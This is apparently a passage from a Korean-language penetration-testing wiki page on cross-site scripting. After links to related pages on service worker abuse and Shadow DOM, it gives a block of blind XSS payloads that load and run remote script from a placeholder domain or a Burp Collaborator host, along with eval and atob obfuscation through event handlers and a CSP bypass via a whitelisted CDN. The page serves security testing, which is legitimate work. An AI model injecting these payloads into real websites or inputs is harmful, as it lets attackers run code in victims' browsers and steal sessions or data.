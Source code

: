 ### 서비스 워커 남용

{% content-ref url="abusing-service-workers.md" %}
[abusing-service-workers.md](abusing-service-workers.md)
{% endcontent-ref %}

### Shadow DOM 접근

{% content-ref url="shadow-dom.md" %}
[shadow-dom.md](shadow-dom.md)
{% endcontent-ref %}

### Polyglots

{% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/xss_polyglots.txt" %}

### Blind XSS payloads

당신은 또한 다음을 사용할 수 있습니다: [https://xsshunter.com/](https://xsshunter.com)
```markup
"><img src='//domain/xss'>
"><script src="//domain/xss.js"></script>
><a href="javascript:eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')">Click Me For An Awesome Time</a>
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//0mnb1tlfl5x4u55yfb57dmwsajgd42.burpcollaborator.net/scriptb");a.send();</script>

<!-- html5sec - Self-executing focus event via autofocus: -->
"><input onfocus="eval('d=document; _ = d.createElement(\'script\');_.src=\'\/\/domain/m\';d.body.appendChild(_)')" autofocus>

<!-- html5sec - JavaScript execution via iframe and onload -->
"><iframe onload="eval('d=document; _=d.createElement(\'script\');_.src=\'\/\/domain/m\';d.body.appendChild(_)')">

<!-- html5sec - SVG tags allow code to be executed with onload without any other elements. -->
"><svg onload="javascript:eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')" xmlns="http://www.w3.org/2000/svg"></svg>

<!-- html5sec -  allow error handlers in <SOURCE> tags if encapsulated by a <VIDEO> tag. The same works for <AUDIO> tags  -->
"><video><source onerror="eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')">

<!--  html5sec - eventhandler -  element fires an "onpageshow" event without user interaction on all modern browsers. This can be abused to bypass blacklists as the event is not very well known.  -->
"><body onpageshow="eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')">

<!-- xsshunter.com - Sites that use JQuery -->
<script>$.getScript("//domain")</script>

<!-- xsshunter.com - When <script> is filtered -->
"><img src=x id=payload&#61;&#61; onerror=eval(atob(this.id))>

<!-- xsshunter.com - Bypassing poorly designed systems with autofocus -->
"><input onfocus=eval(atob(this.id)) id=payload&#61;&#61; autofocus>

<!-- noscript trick -->
<noscript><p title="</noscript><img src=x onerror=alert(1)>">

<!-- whitelisted CDNs in CSP -->
"><script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.6.1/angular.js"></script>
```